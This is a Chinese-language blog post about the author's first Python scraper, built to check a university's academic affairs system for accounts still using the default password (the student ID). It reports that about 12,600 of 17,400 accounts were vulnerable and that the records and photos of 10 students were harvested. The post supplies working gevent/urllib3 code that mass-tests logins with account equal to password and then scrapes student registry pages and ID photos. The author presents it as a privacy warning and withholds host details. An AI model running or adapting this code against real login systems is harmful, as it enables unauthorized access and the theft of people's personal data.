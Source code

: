 ```yaml
---
layout:     post
title:      "Python 第一个爬虫-教务系统信息收集"
subtitle:   ""
date:       2018-02-24 09:25:00
author:     "James"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - 爬虫
---
```

## 初衷
**本文旨在提醒同学们及时修改密码，增强保护个人隐私的意识，因此代码中一些关键数据以及校名等信息不会公开！复制粘贴文章中的代码不会爬到任何东西。只是作为学习 Python 爬虫的一点总结而已！**

作者所在学校的教务系统安全防范措施可谓非常不严密，学生登录甚至不需要图形验证码。每年学生入学之后，学校下发的账号，初始密码不是无规律的，而是和账号完全一致！如果学生不及时修改密码，那么其他人可以轻松登录他的账号。登录后可以看到学生的学籍信息，包括高考报名时照片，家长联系方式等，联系地址甚至详细到几单元几楼几号门，**个人信息泄露情况非常严重！**

## 结果
先说结果。经过两天连写带调试，终于完成了对全校本科生 17400 多个在网账号的测试，其中有 12600 多个账号使用的还是初始密码。此处隐去校名，统计结果如下：

| 序号 | 学院 | 年级 | 在网账号 | 可爬账号 | 年级占比 |
| :-: | :-: | :-: | :-: | :-: | :-: |
|1   |本一   |2014   |3157   |1998   |63.29%   |
|2   |本一   |2015   |3328   |2234   |67.13%   |
|3   |本一   |2016   |3641   |3066   |84.21%   |
|4   |本一   |2017   |3497   |3326   |95.11%   |
|5   |本三   |2014   |1759   |303   |17.23%   |
|6   |本三    |2015   |1643   |620   |37.74%   |
|7   |本三    |2016   |1605   |1434   |89.35%   |
|8   |本三    |2017   |1552   |639   |41.17%   |

**介于初衷，只爬了 10 个账号的信息，以示严重性！**

![爬到的学籍信息](http://upload-images.jianshu.io/upload_images/7134080-ec8c310143b69f21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 过程
本人之前做过近 2 年的 Java 相关开发，对 HTTP 协议中常用的知识了解一些，再加上 Python 出了名的简洁易用，因此入门还是比较轻松的。去年有一段时间研究过一阵子 Python，使用的是 Scrapy 框架，所以这一次我也首先想到了 Scrapy。

Scrapy 这种框架适用的情形是：已经获取了需要爬取的页面的一系列 URL ，或者 URL 是成一定规律变化的，不需要登录或者登录一次拿到 Cookie 就可以拿着这个 Cookie 一直用了。但是教务系统完全相反，它需要每次都进行登录，也许 Scrapy 有办法，但也不会太简单，索性自己写。

这套教务系统虽然安全性不怎么样，但也已是一套成熟的产品了，功能和稳定性上还是很不错的。

![系统的登录界面](http://upload-images.jianshu.io/upload_images/7134080-286f834fd46caf89.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先使用 Firefox 浏览器的开发者工具查看 HTTP 通信的一些信息：

![登录请求 ( POST )](http://upload-images.jianshu.io/upload_images/7134080-3ab0ec0d031193cc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

登录表单通过 POST 请求进行提交，参数是账号和密码，发送的也是明文

![表单参数](http://upload-images.jianshu.io/upload_images/7134080-986180eedc73180d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

服务器返回的响应中 Set-Cookie 就相当于给用户下发的令牌，用户下一次请求的时候带上这块令牌，服务器就能认出来这个用户是否刚登录过。这个令牌是有时间限制的，每次请求都会刷新一次时间，如果两次请求之间间隔时间超过设定值，那么服务器就不认识用户了，这次会话就结束了，需要重新登录。

![登录的响应体](http://upload-images.jianshu.io/upload_images/7134080-d14eaf5437d7dfc4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

刚开始使用的是 requests ，用 for 循环实现，由于 requests 是同步的，所以效率很低，还会经常卡死。后来改成了协程，用的 gevent + urllib3，效率提升了上百倍。解析 HTML 用的 lxml 的 etree，图片的保存用 PIL 的 Image。

先引入依赖
```python
import sys
import logging
import gevent
import urllib3
import pathlib
from PIL import Image
from io import BytesIO
from lxml import etree
```
创建 HTTP 连接池
```python
http = urllib3.HTTPConnectionPool(
    host=settings.SERVER_HOST,
    port=settings.SERVER_PORT,
    strict=False,
    maxsize=100,
    block=False,
    retries=100,
    timeout=10
)
```

请求头的一些固定信息可以预先设定好，伪装浏览器
```python
header = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Cache-Control': 'max-age=0',
    'Connection': 'Keep-alive',
    'Host': settings.SERVER_HOST,
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
}
```
登录并验证是否是初始密码
```python
# 账号校验器
class InfoValidate(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 有效账号
        self.account_valid = []
        # 可爬账号
        self.account_available = []

    def validate(self, all_account):
        # 将所有校验过程加入队列
        jobs = [gevent.spawn(self.validate_account, self.http, a) for a in all_account]
        gevent.joinall(jobs, timeout=0)

    def validate_account(self, http, account):
        # 登录请求参数
        param = {"zjh": account, "mm": account}
        header = headers.header
        response = http.request('POST', settings.URL_LOGIN, fields=param, headers=header)
        self.logger.info('发送请求>>{}'.format(param))
        self.logger.info(response.status)
        # 响应体解码
        res_text = response.data.decode('GB2312', 'ignore')

        if res_text.find('密码不正确') > -1:
            # 密码有误
            self.account_valid.append(account)
        elif not res_text.find('证件号不存在') > -1:
            # 账号可爬
            self.account_available.append(account)
            self.account_valid.append(account)
            self.logger.info("账号可用>>>{}".format(account))
```
至此已经获取了所有初始密码未修改的账号了，下面研究一下，要爬取的学籍信息页的规律

![学籍信息页](http://upload-images.jianshu.io/upload_images/7134080-974fdb14f78e7210.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![table 的结构](http://upload-images.jianshu.io/upload_images/7134080-ed103827cea8be42.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

一系列的信息都包裹在 ```<td width = "275"></td> ```之间，对应的 xpath 表达式即为 ```//td[starts-with(@width,"275")]/text()```

基于之前对账号的测试，爬取学籍信息

```python
# 信息收集器
class InfoCollect(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 功能模块
        self.mod_get_roll_info = settings.MOD_ROLL_INFO
        self.mod_get_roll_img = settings.MOD_ROLL_IMG

    def get_info_queue(self, accounts):
        # 将所有信息收集过程加入队列
        jobs = [gevent.spawn(self.get_info, a) for a in accounts]
        gevent.joinall(jobs, timeout=0)

    def get_info(self, stuid):
        # 登录
        param = {'zjh': stuid, 'mm': stuid}
        response = self.http.request('POST', settings.URL_LOGIN, fields=param)
        # 保存 Cookie
        cookie = response.headers['Set-Cookie'].replace('; path=/', '')
        header = headers.header
        header['cookie'] = cookie
        # 学籍信息
        if self.mod_get_roll_info:
            # 带 Cookie 访问学籍信息页
            response_xjxx = self.http.request('GET', settings.URL_XJXX, headers=header)
            text = response_xjxx.data.decode('GB2312', 'ignore')
            # 解析页面内容
            selector = etree.HTML(text)
            text_arr = selector.xpath('//td[starts-with(@width,"275")]/text()')
            # 学籍信息
            result = []
            for info in text_arr:
                result.append(info.strip())
            self.save_info(result)
        # 学籍照片
        if self.mod_get_roll_img:
            response_xjzp = self.http.request('GET', settings.URL_XJZP, headers=header)
            image = Image.open(BytesIO(response_xjzp.data))
            setpath = settings.PATH_IMG_SAVE
            path = pathlib.Path(setpath)
            if not path.exists():
                path.mkdir()
            setpath = setpath + '/' + stuid + '.jpg'
            image.save(setpath)
            self.logger.info('保存照片>>>{}'.format(setpath))

        # 登出
        self.http.request('POST', settings.URL_LOGOUT, headers=header)
```

至此，已经实现了所有信息的获取以及照片的保存。

没改密码的同学们应该看到了，获取个人信息其实很简单，关键在于增强自己保护个人信息的意识。

相关开源项目：URP_Spider  [https://github.com/JamesZBL/URP_Spider](https://github.com/JamesZBL/URP_Spider)

